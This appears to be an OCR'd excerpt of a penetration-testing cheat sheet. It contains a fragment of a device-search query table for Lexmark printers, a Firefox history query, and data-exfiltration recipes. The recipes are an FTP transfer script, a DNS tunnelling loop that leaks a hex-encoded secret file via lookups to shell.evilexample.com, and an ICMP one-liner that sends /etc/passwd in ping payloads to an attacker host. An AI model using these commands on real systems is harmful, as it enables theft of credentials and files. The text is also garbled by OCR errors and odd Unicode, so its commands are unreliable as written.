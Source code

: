 | Lexmark printers             | "lexmark" "HTTP/1.1 200 OK" "Server: Lexmark"                                                                                                                                                                                                | "lexmark" and 443.https.get.headers.server: Lexmark                                                                                                                                                                |                                                                                                  | metadata.product:lexmark                                                                                                                                       | http.title:"Lexmark"                                                                                 | app:"Lexmark-HttpServer"                                                      | service:lexmark                                                               | title="Lexmark"                                                                                                                                                        | lexmark                                                                            | lexmark                                                                                                                                                              |

## Browser Cache

### Firefox

```
𝑐𝑑 /. 𝑚𝑜𝑧𝑖𝑙𝑙𝑎/𝑓𝑖𝑟𝑒𝑓𝑜𝑥/4𝑝𝑧𝑔𝑞𝑔𝑗4. 𝑑𝑒𝑓𝑎𝑢𝑙𝑡 − 𝑟𝑒𝑙𝑒𝑎𝑠e
𝑠𝑞𝑙𝑖𝑡𝑒3 𝑝𝑙𝑎𝑐𝑒𝑠. 𝑠𝑞𝑙𝑖𝑡𝑒
.𝑡𝑎𝑏𝑙𝑒𝑠
𝑠𝑒𝑙𝑒𝑐𝑡 𝑚𝑜𝑧_𝑝𝑙𝑎𝑐𝑒𝑠. 𝑢𝑟𝑙 𝑓𝑟𝑜𝑚 𝑚𝑜𝑧_𝑝𝑙𝑎𝑐𝑒𝑠;
. 𝑞𝑢𝑖
```

## File transfer

### Transfer by ftp without direct access to shell

```text
echo open ip 21 ftp.txt
echo user ftp.txt
echo pass ftp.txt
echo bin ftp.txt
echo GET file tp.txt
echo bye ftp.txt
ftp -s:ftp.txt
```

### Transfer Dns in Linux

```text
On victim:
1. Hex encode the file to be transferred
    xxd -p secret file.hex
2. Read in each line and do a DNS lookup
    forb in 'cat fole.hex'; do dig $b.shell.evilexample.com; done

Attacker:
1. Capture DNS exfil packets
    tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
2. Cut the exfilled hex from the DNS packet
    tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d'
    cut -f1 -d'.' | uniq received. txt
3. Reverse the hex encoding
    xxd -r -p received~.txt kefS.pgp
```

### Execute the exfil command and transfer its information with icmp

```text
On victim (never ending 1 liner):
     stringz=cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n";
counter=0; while (($counter = ${#stringZ})) ;do ping -s 16 -c l -p
${stringZ:$counter:16} 192.168.10.10 &&
counter=$( (counter+~6)) ; done

On attacker (capture pac~ets to data.dmp and parse):
tcpdump -ntvvSxs 0 'icmp[0]=8' data.dmp
grep Ox0020 data.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```

